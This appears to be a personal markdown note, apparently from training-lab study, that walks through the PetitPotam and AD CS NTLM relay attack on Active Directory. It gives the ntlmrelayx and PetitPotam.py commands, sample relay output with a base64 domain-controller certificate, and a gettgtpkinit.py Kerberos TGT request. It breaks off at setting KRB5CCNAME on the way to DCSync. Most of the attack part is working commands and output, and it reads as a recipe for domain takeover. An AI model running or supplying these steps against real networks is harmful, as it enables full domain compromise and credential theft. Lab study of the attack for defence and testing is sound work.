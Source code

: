 ## this exploits active directory with AD CS servers
you also need to figure out the server and path for cert enrolllment
use `nmap --script=http-enum`
## how this attack works:
- **Coerce the DC to authenticate to your attacker-controlled host** (PetitPotam’s job).
- **Intercept that NTLM authentication**.
- **Relay it** to an AD CS HTTP endpoint that allows **NTLM authentication** (usually `http://<CA_Server>/certsrv/certsrv/`).
- Request a **certificate** for the DC’s machine account.
- Convert that certificate to a **Kerberos TGT** using tools like Rubeus.
- You now have **full domain compromise** without touching the DC directly.

## Testing  For petitpotam

1. get the ceriticate enrollment endpoint


2. listen with relayx and point to the ceritifcate server
`ntlmrelayx listen and relay to cert enrollment interface`
```shell-session
$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

`run petitpotam`
```shell-session
$ python3 PetitPotam.py <attacker-ip> <dc-ip>
```

`ntlmrelayx`
```
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIStQIBAzCCEn8GCSqGSIb3DQEHAaCCEnAEghJsMIISaDCCCJ8GCSqGSIb3DQEHBqCCCJAwggiM6hMSUwIwYJKoZIhvcNAQkVMRYEFLqyF797X2SL//FR1NM+UQsli2GgMC0wITAJBgUrDgMCGgUABBQ84uiZwm1Pz70+e0p2GZNVZDXlrwQIyr7YCKBdGmY=
[*] Skipping user ACADEMY-EA-DC01$ since attack was already performed

<SNIP>
```


## abusing further to DCSYNC
#### using the obtain certificate to forge a kerberos TGT ticket
use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
```shell-session
$ python3 gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
#### Setting the KRB5CCNAME Environment Variable
The TGT requested above was saved down to the `dc01.ccache` file, which we use to set the `KRB5CCNAME `environment variable, so our attack host uses this file for Kerberos authentication attempts
